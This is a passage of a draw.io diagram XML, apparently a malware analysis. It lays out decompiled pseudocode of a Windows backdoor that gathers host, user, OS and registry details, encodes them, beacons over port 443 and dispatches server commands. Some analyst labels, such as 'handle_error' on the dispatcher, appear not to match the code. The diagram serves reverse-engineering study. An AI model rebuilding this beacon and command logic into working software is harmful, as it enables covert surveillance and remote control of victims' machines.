0x800u);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; memset(v9, 0, sizeof(v9));&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v5[0] = 0;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; v3 = &lt;font color=&quot;#47e7ff&quot;&gt;sub_402EE0&lt;/font&gt;(v10, &amp;amp;unk_4075C0); &lt;font color=&quot;#47e7ff&quot;&gt;// (gather_system_info)&lt;/font&gt;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; &lt;font color=&quot;#b6ff24&quot;&gt;SprintFFunction&lt;/font&gt;(Buffer);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; &lt;font color=&quot;#ff8b26&quot;&gt;ProcessDataBuffers&lt;/font&gt;(v8, v10, v3);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; &lt;font color=&quot;#ffcce6&quot;&gt;AppendToBuffer&lt;/font&gt;(v11, (int)byte_4075E0, (int)v8);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; if ( &lt;font color=&quot;#47e7ff&quot;&gt;sub_4034D0&lt;/font&gt;(v11, byte_4075E0, Buffer, v9, 1024, v5) &amp;amp;&amp;amp; !strcmp(v9, aStatusSuccess) ) &lt;font color=&quot;#47e7ff&quot;&gt;// (network_communication)&lt;/font&gt;&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; Thread = CreateThread(0, 0, sub_401960, 0, 0, 0);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; WaitForSingleObject(Thread, 0xFFFFFFFF);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; }&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; else&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; {&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; SleepForX(15000);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; &lt;font color=&quot;#b6ff24&quot;&gt;sub_401C50&lt;/font&gt;(); // function12&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp;&amp;nbsp; SleepForX(10000);&lt;br&gt;&amp;nbsp;&amp;nbsp;&amp;nbsp; }&lt;br&gt;&amp;nbsp; }&lt;br&gt;}&lt;/p&gt;" style="text;html=1;whiteSpace=wrap;overflow=hidden;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="230" y="227" width="422.88" height="890" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-25" value="&lt;h1&gt;Function 1: sub_401760 (main_function)&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="230" y="200" width="550" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-30" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.25;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" parent="1" source="IVjEpb5pE-T4-foRiEZy-6" target="IVjEpb5pE-T4-foRiEZy-18" edge="1">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-33" value="&lt;h1&gt;&lt;font color=&quot;#47e7ff&quot;&gt;Function 5: sub_402EE0() (gather_system_info)):&lt;/font&gt;&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-1180" y="1140" width="580" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-36" value="char *__thiscall sub_402EE0(void *this, int a2, const char *a3)&#xa;{&#xa;  unsigned int v4; // esi&#xa;  struct hostent *v5; // eax&#xa;  char *v6; // eax&#xa;  int v7; // ecx&#xa;  unsigned int v8; // kr04_4&#xa;  unsigned int v9; // ecx&#xa;  char *v10; // ebp&#xa;  unsigned int v11; // kr08_4&#xa;  unsigned int v12; // kr0C_4&#xa;  char *v13; // edi&#xa;  unsigned int v14; // ecx&#xa;  char *v15; // ebp&#xa;  unsigned int v16; // kr10_4&#xa;  unsigned int v17; // ecx&#xa;  char *v18; // ebp&#xa;  unsigned int v19; // kr14_4&#xa;  DWORD nSize; // [esp+10h] [ebp-324h] BYREF&#xa;  CHAR Buffer[61]; // [esp+14h] [ebp-320h] BYREF&#xa;  __int16 v23; // [esp+51h] [ebp-2E3h]&#xa;  char v24; // [esp+53h] [ebp-2E1h]&#xa;  char v25[61]; // [esp+54h] [ebp-2E0h] BYREF&#xa;  __int16 v26; // [esp+91h] [ebp-2A3h]&#xa;  char v27; // [esp+93h] [ebp-2A1h]&#xa;  char v28[61]; // [esp+94h] [ebp-2A0h] BYREF&#xa;  __int16 v29; // [esp+D1h] [ebp-263h]&#xa;  char v30; // [esp+D3h] [ebp-261h]&#xa;  char Destination[61]; // [esp+D4h] [ebp-260h] BYREF&#xa;  __int16 v32; // [esp+111h] [ebp-223h]&#xa;  char v33; // [esp+113h] [ebp-221h]&#xa;  _BYTE VersionInformation[284]; // [esp+114h] [ebp-220h] BYREF&#xa;  char name[257]; // [esp+230h] [ebp-104h] BYREF&#xa;  __int16 v36; // [esp+331h] [ebp-3h]&#xa;  char v37; // [esp+333h] [ebp-1h]&#xa;&#xa;  memset(name, 0, sizeof(name));&#xa;  v36 = 0;&#xa;  v37 = 0;&#xa;  *(_BYTE *)a2 = 1;&#xa;  v4 = 0;&#xa;  if ( !gethostname(name, 255) )&#xa;  {&#xa;    v5 = gethostbyname(name);&#xa;    if ( v5 )&#xa;    {&#xa;      v6 = inet_ntoa(**(struct in_addr **)v5-&gt;h_addr_list);&#xa;      v4 = inet_addr(v6);&#xa;      dword_407624 = v4;&#xa;    }&#xa;  }&#xa;  *(_DWORD *)(a2 + 1) = v4;&#xa;  *(_DWORD *)(a2 + 5) = GetOEMCP();&#xa;  *(_DWORD *)(a2 + 9) = GetTickCount();&#xa;  *(_DWORD *)(a2 + 13) = sub_4031F0(this) == 0;&#xa;  memset(VersionInformation, 0, sizeof(VersionInformation));&#xa;  *(_DWORD *)VersionInformation = 284;&#xa;  GetVersionExW((LPOSVERSIONINFOW)VersionInformation);&#xa;  v7 = *(_DWORD *)&amp;VersionInformation[8];&#xa;  *(_DWORD *)(a2 + 17) = *(_DWORD *)&amp;VersionInformation[4];&#xa;  *(_DWORD *)(a2 + 21) = v7;&#xa;  memset(Destination, 0, sizeof(Destination));&#xa;  memset(v28, 0, sizeof(v28));&#xa;  v32 = 0;&#xa;  v33 = 0;&#xa;  v29 = 0;&#xa;  v30 = 0;&#xa;  *(_BYTE *)(a2 + 25) = VersionInformation[282];&#xa;  sub_403220(Destination, v28);&#xa;  v8 = strlen(Destination) + 1;&#xa;  *(_WORD *)(a2 + 26) = v8 - 1;&#xa;  v9 = (unsigned __int16)(v8 - 1);&#xa;  qmemcpy((void *)(a2 + 28), Destination, v9);&#xa;  v10 = (char *)(v9 + a2 + 28 + 2);&#xa;  v11 = strlen(v28) + 1;&#xa;  *((_WORD *)v10 - 1) = v11 - 1;&#xa;  qmemcpy(v10, v28, (unsigned __int16)(v11 - 1));&#xa;  memset(Buffer, 0, sizeof(Buffer));&#xa;  v23 = 0;&#xa;  v24 = 0;&#xa;  nSize = 64;&#xa;  GetComputerNameA(Buffer, &amp;nSize);&#xa;  v12 = strlen(Buffer) + 1;&#xa;  v13 = &amp;v10[(unsigned __int16)(v11 - 1) + 2];&#xa;  *((_WORD *)v13 - 1) = v12 - 1;&#xa;  v14 = (unsigned __int16)(v12 - 1);&#xa;  v15 = &amp;v13[v14];&#xa;  qmemcpy(v13, Buffer, v14);&#xa;  memset(v25, 0, sizeof(v25));&#xa;  v26 = 0;&#xa;  v27 = 0;&#xa;  sub_403360(v25);&#xa;  v15 += 2;&#xa;  v16 = strlen(v25) + 1;&#xa;  *((_WORD *)v15 - 1) = v16 - 1;&#xa;  v17 = (unsigned __int16)(v16 - 1);&#xa;  qmemcpy(v15, v25, v17);&#xa;  v18 = &amp;v15[v17 + 2];&#xa;  v19 = strlen(a3) + 1;&#xa;  *((_WORD *)v18 - 1) = v19 - 1;&#xa;  qmemcpy(v18, a3, (unsigned __int16)(v19 - 1));&#xa;  return &amp;v18[(unsigned __int16)(v19 - 1) - a2];&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="-1140" y="1240" width="390" height="1510" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-40" value="&lt;h1&gt;&lt;font color=&quot;#baff42&quot;&gt;Function 4: sub_4027A0() (copy_string))&lt;/font&gt;&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-340" y="555" width="470" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-41" value="char *__stdcall sub_403220(char *Destination, char *a2)&#xa;{&#xa;  HANDLE CurrentThread; // eax&#xa;  char *result; // eax&#xa;  HANDLE CurrentProcess; // eax&#xa;  HANDLE TokenHandle; // [esp+0h] [ebp-614h] BYREF&#xa;  DWORD cchReferencedDomainName; // [esp+4h] [ebp-610h] BYREF&#xa;  DWORD cchName; // [esp+8h] [ebp-60Ch] BYREF&#xa;  DWORD ReturnLength; // [esp+Ch] [ebp-608h] BYREF&#xa;  enum _SID_NAME_USE peUse; // [esp+10h] [ebp-604h] BYREF&#xa;  CHAR ReferencedDomainName[253]; // [esp+14h] [ebp-600h] BYREF&#xa;  __int16 v11; // [esp+111h] [ebp-503h]&#xa;  char v12; // [esp+113h] [ebp-501h]&#xa;  CHAR Name[253]; // [esp+114h] [ebp-500h] BYREF&#xa;  __int16 v14; // [esp+211h] [ebp-403h]&#xa;  char v15; // [esp+213h] [ebp-401h]&#xa;  char TokenInformation[1021]; // [esp+214h] [ebp-400h] BYREF&#xa;  __int16 v17; // [esp+611h] [ebp-3h]&#xa;  char v18; // [esp+613h] [ebp-1h]&#xa;&#xa;  memset(TokenInformation, 0, sizeof(TokenInformation));&#xa;  memset(Name, 0, sizeof(Name));&#xa;  v17 = 0;&#xa;  v18 = 0;&#xa;  memset(ReferencedDomainName, 0, sizeof(ReferencedDomainName));&#xa;  v14 = 0;&#xa;  v15 = 0;&#xa;  v11 = 0;&#xa;  v12 = 0;&#xa;  cchName = 256;&#xa;  cchReferencedDomainName = 256;&#xa;  CurrentThread = GetCurrentThread();&#xa;  if ( OpenThreadToken(CurrentThread, 8u, 1, &amp;TokenHandle)&#xa;    || (result = (char *)GetLastError(), result == (char *)1008)&#xa;    &amp;&amp; (CurrentProcess = GetCurrentProcess(), (result = (char *)OpenProcessToken(CurrentProcess, 8u, &amp;TokenHandle)) != 0) )&#xa;  {&#xa;    result = (char *)GetTokenInformation(TokenHandle, TokenUser, TokenInformation, 0x400u, &amp;ReturnLength);&#xa;    if ( result )&#xa;    {&#xa;      result = (char *)LookupAccountSidA(&#xa;                         0,&#xa;                         *(PSID *)TokenInformation,&#xa;                         Name,&#xa;                         &amp;cchName,&#xa;                         ReferencedDomainName,&#xa;                         &amp;cchReferencedDomainName,&#xa;                         &amp;peUse);&#xa;      if ( result )&#xa;      {&#xa;        strncpy(Destination, ReferencedDomainName, 0x3Fu);&#xa;        return strncpy(a2, Name, 0x3Fu);&#xa;      }&#xa;    }&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="-2070" y="1590" width="560" height="860" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-43" value="&lt;h1&gt;&lt;font color=&quot;#ff30e3&quot;&gt;Function 6: sub_403220() (get_token_info):&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-2100" y="1510" width="680" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-45" value="void __stdcall sub_403360(char *a1)&#xa;{&#xa;  void *v1; // ebx&#xa;  const char *v2; // edi&#xa;  HKEY phkResult; // [esp+Ch] [ebp-10h] BYREF&#xa;  DWORD cbData; // [esp+10h] [ebp-Ch] BYREF&#xa;  DWORD v5; // [esp+14h] [ebp-8h] BYREF&#xa;  BYTE Data[4]; // [esp+18h] [ebp-4h] BYREF&#xa;&#xa;  phkResult = HKEY_CURRENT_USER;&#xa;  if ( RegOpenKeyExA(HKEY_CURRENT_USER, SubKey, 0, 1u, &amp;phkResult) )&#xa;  {&#xa;    RegCloseKey(phkResult);&#xa;    return;&#xa;  }&#xa;  cbData = 0;&#xa;  if ( !RegQueryValueExA(phkResult, ValueName, 0, 0, 0, &amp;cbData) )&#xa;  {&#xa;    v1 = operator new(cbData);&#xa;    memset(v1, 0, cbData);&#xa;    if ( !RegQueryValueExA(phkResult, ValueName, 0, 0, (LPBYTE)v1, &amp;cbData)&#xa;      &amp;&amp; !RegQueryValueExA(phkResult, aAH, 0, 0, 0, &amp;cbData) )&#xa;    {&#xa;      v5 = 4;&#xa;      if ( !RegQueryValueExA(phkResult, aAH, 0, 0, Data, &amp;v5) )&#xa;      {&#xa;        strcat(a1, (const char *)v1);&#xa;        if ( *(_DWORD *)Data )&#xa;        {&#xa;          if ( *(_DWORD *)Data != 1 )&#xa;          {&#xa;LABEL_12:&#xa;            operator delete(v1);&#xa;            return;&#xa;          }&#xa;          v2 = aOn;&#xa;        }&#xa;        else&#xa;        {&#xa;          v2 = aOff;&#xa;        }&#xa;        strcat(a1, v2);&#xa;        goto LABEL_12;&#xa;      }&#xa;    }&#xa;  }&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="-1999.5" y="2700" width="450" height="700" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-47" value="&lt;h1&gt;&lt;font color=&quot;#ff8b26&quot;&gt;Function 7: sub_403360() (read_registry_value):&lt;/font&gt;&lt;br&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-2060" y="2590" width="680" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-49" value="int __stdcall SprintFFunction(char *Buffer)&#xa;{&#xa;  return sprintf(Buffer, &quot;%s%u&quot;, asc_4073E8, dword_407624);&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="-200" y="1250" width="370" height="80" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-51" value="&lt;h1&gt;&lt;font color=&quot;#b6ff24&quot;&gt;Function 8: SprintFFunction() (format_string)):&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-220" y="1180" width="550" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-53" value="int __cdecl ProcessDataBuffers(_BYTE *InputBuffer, _BYTE *InputBuffer2, unsigned int BufferSize)&#xa;{&#xa;  _BYTE *v3; // ecx&#xa;  _BYTE *v4; // esi&#xa;  unsigned int v5; // ebp&#xa;  char v6; // al&#xa;  char v7; // dl&#xa;  char v8; // bl&#xa;  unsigned __int8 v9; // al&#xa;  _BYTE *v10; // ecx&#xa;  int result; // eax&#xa;  unsigned __int8 v12; // [esp+4h] [ebp-1Ch]&#xa;  unsigned __int8 v13; // [esp+8h] [ebp-18h]&#xa;  unsigned __int8 v14; // [esp+Ch] [ebp-14h]&#xa;  unsigned __int8 v15; // [esp+10h] [ebp-10h]&#xa;  int v16; // [esp+14h] [ebp-Ch]&#xa;  unsigned __int8 v17; // [esp+18h] [ebp-8h]&#xa;  unsigned __int8 v18; // [esp+1Ch] [ebp-4h]&#xa;  unsigned __int8 InputBuffera; // [esp+24h] [ebp+4h]&#xa;  unsigned int InputBuffer2a; // [esp+28h] [ebp+8h]&#xa;  unsigned __int8 BufferSizea; // [esp+2Ch] [ebp+Ch]&#xa;&#xa;  v3 = InputBuffer;&#xa;  if ( !InputBuffer )&#xa;    return 0;&#xa;  v4 = InputBuffer2;&#xa;  if ( !InputBuffer2 )&#xa;    return 0;&#xa;  v5 = BufferSize;&#xa;  InputBuffer2a = BufferSize;&#xa;  v16 = 0;&#xa;  if ( BufferSize )&#xa;  {&#xa;    while ( 1 )&#xa;    {&#xa;      if ( v5 &gt;= 5 )&#xa;        v5 = 5;&#xa;      v6 = 0;&#xa;      v7 = 0;&#xa;      v8 = 0;&#xa;      v15 = 0;&#xa;      InputBuffera = 0;&#xa;      v14 = 0;&#xa;      v13 = 0;&#xa;      v12 = 0;&#xa;      BufferSizea = 0;&#xa;      v18 = 0;&#xa;      v17 = 0;&#xa;      switch ( v5 )&#xa;      {&#xa;        case 1u:&#xa;          goto LABEL_13;&#xa;        case 2u:&#xa;          goto LABEL_12;&#xa;        case 3u:&#xa;          goto LABEL_11;&#xa;        case 4u:&#xa;          goto LABEL_10;&#xa;        case 5u:&#xa;          v15 = v4[4] &amp; 0x1F;&#xa;          InputBuffera = v4[4] &gt;&gt; 5;&#xa;LABEL_10:&#xa;          InputBuffera |= 8 * (v4[3] &amp; 3);&#xa;          v14 = (v4[3] &gt;&gt; 2) &amp; 0x1F;&#xa;          v6 = v4[3] &gt;&gt; 7;&#xa;LABEL_11:&#xa;          v13 = (2 * (v4[2] &amp; 0xF)) | v6;&#xa;          v7 = v4[2] &gt;&gt; 4;&#xa;LABEL_12:&#xa;          v9 = v4[1];&#xa;          v12 = (16 * (v9 &amp; 1)) | v7;&#xa;          BufferSizea = (v9 &gt;&gt; 1) &amp; 0x1F;&#xa;          v8 = v9 &gt;&gt; 6;&#xa;LABEL_13:&#xa;          v18 = (4 * (*v4 &amp; 7)) | v8;&#xa;          v17 = *v4 &gt;&gt; 3;&#xa;          break;&#xa;        default:&#xa;          break;&#xa;      }&#xa;      v4 += v5;&#xa;      InputBuffer2a -= v5;&#xa;      switch ( v5 )&#xa;      {&#xa;        case 1u:&#xa;          v12 = 32;&#xa;          BufferSizea = 32;&#xa;          goto LABEL_16;&#xa;        case 2u:&#xa;LABEL_16:&#xa;          v13 = 32;&#xa;          goto LABEL_17;&#xa;        case 3u:&#xa;LABEL_17:&#xa;          InputBuffera = 32;&#xa;          v14 = 32;&#xa;          goto LABEL_18;&#xa;        case 4u:&#xa;LABEL_18:&#xa;          v15 = 32;&#xa;          break;&#xa;        default:&#xa;          break;&#xa;      }&#xa;      v10 = v3 + 1;&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v17];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v18];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[BufferSizea];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v12];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v13];&#xa;      *(v10++ - 1) = aAbcdefghijklmn[v14];&#xa;      *(v10 - 1) = aAbcdefghijklmn[InputBuffera];&#xa;      v3 = v10 + 1;&#xa;      *(v3 - 1) = aAbcdefghijklmn[v15];&#xa;      v16 += 8;&#xa;      if ( !InputBuffer2a )&#xa;        break;&#xa;      v5 = InputBuffer2a;&#xa;    }&#xa;  }&#xa;  result = v16;&#xa;  *v3 = 0;&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="-469" y="1540" width="560" height="1820" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-56" value="&lt;h1&gt;&lt;font color=&quot;#ff8b26&quot;&gt;Function 9: ProcessDataBuffers() (process_input_data):&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-469" y="1480" width="659" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-59" value="int __stdcall AppendToBuffer(char *Buffer, int a2, const char *a3)&#xa;{&#xa;  int result; // eax&#xa;&#xa;  sprintf(Buffer, aYf, a2);&#xa;  result = 0;&#xa;  strcat(Buffer, aRf8t69mIWm);&#xa;  strcat(Buffer, aPj);&#xa;  strcat(Buffer, aDz);&#xa;  strcat(Buffer, aPj_0);&#xa;  strcat(Buffer, aPj_1);&#xa;  strcat(Buffer, aRfX0wEtbUqP3);&#xa;  strcat(Buffer, a3);&#xa;  strcat(Buffer, asc_407478);&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="-459" y="3650" width="380" height="250" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-62" value="&lt;h1&gt;&lt;font color=&quot;#ffcce6&quot;&gt;Function 10: AppendToBuffer() (append_to_buffer):&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="-518" y="3560" width="609" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-65" value="int __thiscall sub_4034D0(int this, int a2, int a3, int a4, int a5, int a6, _DWORD *a7)&#xa;{&#xa;  int v8; // ebx&#xa;  int v10; // eax&#xa;  int v11; // ebp&#xa;  int v12; // eax&#xa;  int v13; // edi&#xa;  int v14; // ebx&#xa;  int v15; // ebp&#xa;  int i; // [esp+ACh] [ebp-Ch] BYREF&#xa;  int v17; // [esp+B0h] [ebp-8h] BYREF&#xa;  int v18; // [esp+B4h] [ebp-4h]&#xa;&#xa;  v8 = (*(int (__stdcall **)(_DWORD, _DWORD, _DWORD, _DWORD, _DWORD))(this + 4))(0, 0, 0, 0, 0);&#xa;  v18 = v8;&#xa;  if ( v8 )&#xa;  {&#xa;    v17 = 20000;&#xa;    if ( (*(int (__stdcall **)(int, int, int *, int))(this + 8))(v8, 2, &amp;v17, 4) )&#xa;    {&#xa;      v10 = (*(int (__stdcall **)(int, int, int, _DWORD, _DWORD, int, _DWORD, _DWORD))(this + 12))(&#xa;              v8,&#xa;              a3,&#xa;              443,&#xa;              0,&#xa;              0,&#xa;              3,&#xa;              0,&#xa;              0);&#xa;      v11 = v10;&#xa;      v17 = v10;&#xa;      if ( v10 )&#xa;      {&#xa;        v12 = (*(int (__stdcall **)(int, void *, int, void *, _DWORD, _DWORD, int, _DWORD))(this + 16))(&#xa;                v10,&#xa;                &amp;unk_4071D4,&#xa;                a4,&#xa;                &amp;unk_4071E0,&#xa;                0,&#xa;                0,&#xa;                13119488,&#xa;                0);&#xa;        v13 = v12;&#xa;        if ( v12 )&#xa;        {&#xa;          if ( (*(int (__stdcall **)(int, int, int, _DWORD, _DWORD))(this + 20))(v12, a2, -1, 0, 0)&#xa;            || GetLastError() == 12045&#xa;            &amp;&amp; (a4 = 4,&#xa;                (*(void (__stdcall **)(int, int, int *, int *))(this + 24))(v13, 31, &amp;a3, &amp;a4),&#xa;                a3 |= 0x180u,&#xa;                (*(void (__stdcall **)(int, int, int *, int))(this + 8))(v13, 31, &amp;a3, 4),&#xa;                (*(int (__stdcall **)(int, int, int, _DWORD, _DWORD))(this + 20))(v13, a2, -1, 0, 0)) )&#xa;          {&#xa;            v14 = a5;&#xa;            v15 = a6;&#xa;            for ( i = 0; ; *a7 += i )&#xa;            {&#xa;              Sleep(0x64u);&#xa;              v14 += i;&#xa;              if ( !(*(int (__stdcall **)(int, int, int, int *))(this + 32))(v13, v14, v15, &amp;i) )&#xa;              {&#xa;                GetLastError();&#xa;                (*(void (__stdcall **)(int))(this + 28))(v18);&#xa;                (*(void (__stdcall **)(int))(this + 28))(v17);&#xa;                (*(void (__stdcall **)(int))(this + 28))(v13);&#xa;                return 0;&#xa;              }&#xa;              if ( !i )&#xa;                break;&#xa;              v15 -= i;&#xa;            }&#xa;            (*(void (__stdcall **)(int))(this + 28))(v13);&#xa;            (*(void (__stdcall **)(int))(this + 28))(v17);&#xa;            (*(void (__stdcall **)(int))(this + 28))(v18);&#xa;            return 1;&#xa;          }&#xa;          else&#xa;          {&#xa;            (*(void (__stdcall **)(int))(this + 28))(v8);&#xa;            (*(void (__stdcall **)(int))(this + 28))(v17);&#xa;            (*(void (__stdcall **)(int))(this + 28))(v13);&#xa;            return 0;&#xa;          }&#xa;        }&#xa;        else&#xa;        {&#xa;          GetLastError();&#xa;          (*(void (__stdcall **)(int))(this + 28))(v8);&#xa;          (*(void (__stdcall **)(int))(this + 28))(v11);&#xa;          (*(void (__stdcall **)(_DWORD))(this + 28))(0);&#xa;          return 0;&#xa;        }&#xa;      }&#xa;      else&#xa;      {&#xa;        GetLastError();&#xa;        (*(void (__stdcall **)(int))(this + 28))(v8);&#xa;        (*(void (__stdcall **)(_DWORD))(this + 28))(0);&#xa;        return 0;&#xa;      }&#xa;    }&#xa;    else&#xa;    {&#xa;      GetLastError();&#xa;      (*(void (__stdcall **)(int))(this + 28))(v8);&#xa;      return 0;&#xa;    }&#xa;  }&#xa;  else&#xa;  {&#xa;    GetLastError();&#xa;    (*(void (__stdcall **)(_DWORD))(this + 28))(0);&#xa;    return 0;&#xa;  }&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="750" y="1690" width="560" height="1720" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-67" value="&lt;h1&gt;&lt;font color=&quot;#47e7ff&quot;&gt;Function 11: sub_4034D0() (network_communication):&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="750" y="1630" width="640" height="70" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-70" value="int sub_401C50()&#xa;{&#xa;  int result; // eax&#xa;  int v1[131]; // [esp-210h] [ebp-D30h] BYREF&#xa;  int *v2; // [esp-4h] [ebp-B24h]&#xa;  int v3; // [esp+10h] [ebp-B10h] BYREF&#xa;  char v4[128]; // [esp+14h] [ebp-B0Ch] BYREF&#xa;  char Buffer[128]; // [esp+94h] [ebp-A8Ch] BYREF&#xa;  int Parameter[131]; // [esp+114h] [ebp-A0Ch] BYREF&#xa;  char v7[1024]; // [esp+320h] [ebp-800h] BYREF&#xa;  char v8[1024]; // [esp+720h] [ebp-400h] BYREF&#xa;&#xa;  memset(v4, 0, sizeof(v4));&#xa;  memset(Buffer, 0, sizeof(Buffer));&#xa;  v3 = 0;&#xa;  memset(v8, 0, sizeof(v8));&#xa;  memset(v7, 0, sizeof(v7));&#xa;  sub_402980(Buffer);&#xa;  sub_402BC0(v8, (int)byte_4075E0, (int)v4);&#xa;  strcpy(v4, byte_4075E0);&#xa;  strcat(v4, Buffer);&#xa;  if ( !sub_4034D0(v8, byte_4075E0, Buffer, v7, 1024, &amp;v3) || !strcmp(v7, aStatusSuccess) )&#xa;    return 0;&#xa;  if ( !v3 )&#xa;    return 1;&#xa;  qmemcpy(Parameter, v7, sizeof(Parameter));&#xa;  sub_4028A0(&amp;Parameter[3], 512);&#xa;  switch ( Parameter[0] )&#xa;  {&#xa;    case 4:&#xa;      v2 = (int *)v4;&#xa;      qmemcpy(v1, Parameter, sizeof(v1));&#xa;      sub_401F20();&#xa;      return 1;&#xa;    case 5:&#xa;      v2 = (int *)v4;&#xa;      qmemcpy(v1, Parameter, sizeof(v1));&#xa;      sub_4020E0();&#xa;      return 1;&#xa;    case 6:&#xa;      v2 = (int *)v4;&#xa;      qmemcpy(v1, Parameter, sizeof(v1));&#xa;      sub_402150();&#xa;      return 1;&#xa;    case 7:&#xa;      CreateThread(0, 0, StartAddress, Parameter, 0, 0);&#xa;      Sleep(0x1F4u);&#xa;      result = 1;&#xa;      break;&#xa;    case 8:&#xa;      v2 = (int *)v4;&#xa;      qmemcpy(v1, Parameter, sizeof(v1));&#xa;      sub_4023A0(v1[0], v1[1], v1[2], v1[3]);&#xa;      return 1;&#xa;    default:&#xa;      return 1;&#xa;  }&#xa;  return result;&#xa;}" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="755" y="3640" width="520" height="870" as="geometry" />
        </mxCell>
        <mxCell id="IVjEpb5pE-T4-foRiEZy-74" value="&lt;h1&gt;&lt;font color=&quot;#b6ff24&quot;&gt;Function 12: sub_401C50() (handle_error)&lt;br&gt;&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="740" y="3580" width="550" height="70" as="geometry" />
        </mxCell>
        <mxCell id="DX8UZuRaf82wdAfemyZ2-5" value="&lt;h1 style=&quot;font-size: 16px;&quot;&gt;&lt;font style=&quot;font-size: 14px;&quot; color=&quot;#ff30e3&quot;&gt;sub_403220() (get_token_info):&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="-962" y="2206" width="390" height="80" as="geometry" />
        </mxCell>
        <mxCell id="DX8UZuRaf82wdAfemyZ2-6" value="&lt;h1 style=&quot;font-size: 17px;&quot;&gt;&lt;font style=&quot;font-size: 17px;&quot; color=&quot;#ff8b26&quot;&gt;sub_403360() (read_registry_value)&lt;/font&gt;&lt;/h1&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
